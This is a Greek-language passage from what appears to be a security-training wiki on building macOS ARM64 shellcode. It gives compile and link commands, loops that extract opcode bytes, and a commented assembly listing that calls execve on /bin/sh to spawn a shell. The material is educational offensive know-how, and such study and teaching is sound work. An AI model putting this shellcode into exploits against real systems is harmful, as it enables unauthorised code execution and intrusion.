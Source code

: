 ### Shellcodes

Για να μεταγλωττίσετε:
```bash
as -o shell.o shell.s
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib

# You could also use this
ld -o shell shell.o -syslibroot $(xcrun -sdk macosx --show-sdk-path) -lSystem
```
Για να εξαγάγετε τα bytes:
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/b729f716aaf24cbc8109e0d94681ccb84c0b0c9e/helper/extract.sh
for c in $(objdump -d "s.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done
```
Για νεότερες εκδόσεις macOS:
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/fc0742e9ebaf67c6a50f4c38d59459596e0a6c5d/helper/extract.sh
for s in $(objdump -d "s.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n $s | awk '{for (i = 7; i > 0; i -= 2) {printf "\\x" substr($0, i, 2)}}'
done
```
<details><summary>Κώδικας C για δοκιμή του shellcode</summary></details>

#### Shell

Ληφθέν από [**εδώ**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) και εξηγημένο.

{% tabs %}
{% tab title="με adr" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
adr  x0, sh_path  ; This is the address of "/bin/sh".
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}
